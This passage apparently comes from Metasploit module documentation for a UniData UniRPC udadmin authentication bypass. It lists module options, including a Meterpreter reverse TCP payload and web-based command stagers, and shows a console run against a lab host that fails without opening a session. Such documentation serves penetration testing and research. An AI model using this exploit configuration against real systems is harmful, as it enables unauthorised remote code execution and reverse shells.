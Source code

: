 ```
   UNIRPC_UID       0                yes       Linux uid to authenticate with (must correspond to the username)
   UNIRPC_USERNAME  fake             yes       Linux username to authenticate with (must match the uid)
   URIPATH                           no        The URI to use for this exploit (default is random)


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  ens160           yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf exploit(linux/misc/unidata_udadmin_auth_bypass) > exploit

[*] Started reverse TCP handler on 10.0.0.227:4444 
[*] 10.0.0.198:31438 - Running automatic check ("set AutoCheck false" to disable)
[*] 10.0.0.198:31438 - Trying to get version number from service defcs...
[*] 10.0.0.198:31438 - Detected UniRPC version 8.2.4 is running
[!] 10.0.0.198:31438 - The service is running, but could not be validated.
[*] 10.0.0.198:31438 - Connecting to UniRPC endpoint udadmin
[*] 10.0.0.198:31438 - Authenticating to RPC service as :local: / fake:0:1000
[-] 10.0.0.198:31438 - Exploit aborted due to failure: unexpected-reply: UniRPC server returned something unexpected: UniRPC server returned an error code: Unknown error: 80011
[*] Exploit completed, but no session was created.
```

### Version 8.2.4 with non-root user, unix command target
